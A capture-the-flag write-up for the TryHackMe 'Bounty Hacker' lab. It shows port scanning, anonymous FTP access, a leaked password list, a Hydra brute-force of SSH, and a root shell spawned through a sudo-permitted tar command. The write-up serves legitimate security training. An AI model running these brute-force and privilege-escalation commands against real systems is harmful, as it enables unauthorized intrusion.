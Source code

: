 # 'Bounty Hacker' box writeup
## Bounty Hacker is a CTF box written by Sevuhl and available on the [TryHackMe platform](https://tryhackme.com).
## Read about [Tar in Linux](https://www.freecodecamp.org/news/tar-in-linux-example-tar-gz-tar-file-and-tar-directory-and-tar-compress-commands/) and [Breaking restricted environment with tar](https://gtfobins.github.io/gtfobins/tar/).
## ![bg](images/background.jpg?raw=true "Title")

+ **We deploy the machine and start with an nmap scan for open ports**

``nmap -sV -sC -oN scan1 10.10.229.13``

+ **We can see 3 open ports with some well known services: ftp, ssh and http, all opened on default ports**

![1](images/nmap_scan.jpg?raw=true "Nmap_scan")

+ **Next, we will try to connect to the ftp service using the default user anonymous**

![2](images/ftp_login.jpg?raw=true "Ftp_login")

+ **Listing the directory, we can observe two .txt files uploaded so let's get them**

``mget *.txt``

+ **Reading the task.txt file, we can find out who wrote the task list, giving us the first task answer. We list the second txt file, named locks.txt, and we can see multiple strings which seems to be some passwords kept in the ftp server**

```
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
...
```

+ **Let's try to use this password file to connect on the ssh service, using simultaneously the user found in the previous task. The Hydra tool has a brute-force option to crack the login of the ssh service, so we can use it**

``hydra -l lin -P locks.txt 10.10.229.13 -t 4 ssh``

+ **After we execute the brute-force process, Hydra give us the needed user password**

# ![3](images/hydra_brute.jpg?raw=true "Hydra")

+ **With the given credentials, we will connect to the ssh service**

``ssh lin@10.10.229.13``

+ **We land on the wanted system so we can read our first user flag**

# ![4](images/first_flag.jpg?raw=true "first_flag")

+ **Running the** ``sudo -l`` **command on @lin user and listing the allowed commands, we can see that user @lin may run the following commands on bountyhacker:**
      ``(root) /bin/tar``

# ![5](images/whoami.jpg?raw=true "whoami")

+ **Tar is a linux archiving utility, used by a lot of unix system administrators to create compressed archive files or to extract them. Looking into the tar manual, we can see that it has an option that can execute a command during the compress-program**

# ![6](images/tar.jpg?raw=true "tar manual")

+ **That being said, let's try to break our environment and spawn a shell using privilege escalation, getting access to the @root user**

``sudo tar xf /dev/null -I '/bin/sh -c "sh <&2 1>&2"'``

# ![Alt text](images/root_flag.jpg?raw=true "root_flag")
